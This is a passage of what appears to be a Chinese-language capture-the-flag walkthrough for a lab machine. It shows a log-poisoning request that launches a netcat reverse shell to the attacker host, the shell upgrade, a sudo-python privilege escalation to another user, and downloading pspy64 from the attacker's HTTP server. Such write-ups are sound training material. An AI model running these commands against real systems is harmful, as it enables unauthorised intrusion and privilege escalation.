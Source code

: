 ```
http://10.0.0.116/planet/My_H1dd3n_S3cr3t/file.php?file=/var/log/apache2/access.log&haha=bash -c 'nc 10.0.0.3 4444 -e "/bin/bash"'
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

反弹成功，先切换成交互式shell

```
python3 -c 'import pty;pty.spawn("/bin/bash")'  
export TERM=xterm  
Ctrl+z  
stty raw -echo;fg  
reset
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

切换完成，来找一下敏感信息

```
sudo -l
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

可以使用giuseppe用户身份执行python

```
sudo -u giuseppe python -c 'import os;os.system("/bin/bash")'
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

显示的不太友好，但是提权成功了，继续找敏感信息

```
cd /home/giuseppe  
ls  
cat user.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拿到user.txt，上传个脚本来检查可提权内容

1。攻击机在脚本目录开启http服务

```
python3 -m http.server
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

2。靶机下载pspy64

```
cd /tmp  
wget http://10.0.0.3:8000/pspy64  
chmod +x pspy64  
./pspy64
```
